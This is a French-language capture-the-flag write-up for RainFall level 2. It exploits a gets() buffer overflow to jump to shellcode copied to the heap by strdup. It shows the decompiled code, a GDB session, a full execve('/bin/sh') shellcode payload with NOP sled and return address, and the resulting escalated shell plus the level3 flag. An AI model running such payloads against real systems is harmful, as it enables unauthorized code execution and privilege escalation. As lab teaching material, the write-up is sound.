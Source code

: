 # **Level 2**

Pour le `level2` c'est la meme idee sauf qu'il n'y a rien dans le code pour lancer un shell, donc on va devoir le lancer par nous meme

```
void p(void)

{
  uint unaff_retaddr;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}



void main(void)

{
  p();
  return;
}
```

Le but de cet exercice est d'utiliser la heap (pas la stack car elle n'est pas executable ici) pour executer du code que nous allons lui passer en input

Pour ca on utilise comme point d'entree `gets` pour ecrire notre payload et `strdup` pour l'executer

Comme le buffer est assez grand, on peux ecrire notre `shellcode` dedans, donc on cherche un shellcode pour executer execve("/bin/sh")
[ShellStorm](https://shell-storm.org/shellcode/index.html)
[exploit-db](https://www.exploit-db.com/shellcodes)

On comble le debut de notre payload par des `nop (\x90)` instruction qui permet de passer a la suivante

Et on fini par overwrite `eip` pour faire pointer l'instruction suivant sur le pointeur que r'envoie `strdup`

> On aura quelque chose de la forme `\x90 * (len(to eip) - len(shellcode)) + shellcode + address de debut`

Pour trouver l'addresse de strdup on utilise gdb

```
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
(gdb) b *0x0804853e
Breakpoint 1 at 0x804853e
(gdb) run
Starting program: /home/user/level2/level2 
aaaa
aaaa

Breakpoint 1, 0x0804853e in p ()
(gdb) r i
The program being debugged has been started already.
Start it from the beginning? (y or n) n
Program not restarted.
(gdb) i r
eax            0x804a008	134520840
ecx            0x0	0
edx            0xbffff6cc	-1073744180
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff71c	0xbffff71c
ebp            0xbffff728	0xbffff728
esi            0x0	0
edi            0x0	0
eip            0x804853e	0x804853e <p+106>
eflags         0x200286	[ PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x/s 0x804a008
0x804a008:	 "aaaa"
```
On peux donc construire notre payload

```
level2@RainFall:/var/crash$ python -c "print '\x90'*35 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\x08\xa0\x04\x08'" > /var/crash/lvl2
```

Et on l'execute

```
level2@RainFall:~$ cat /var/crash/lvl2 -| ./level2 
������������������������������������^�1��F�F
                                            �
                                             ���V
                                                 1�����/bin/s�
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

```

> ### NEXT : [Level 3](/level3/resources/README.md)
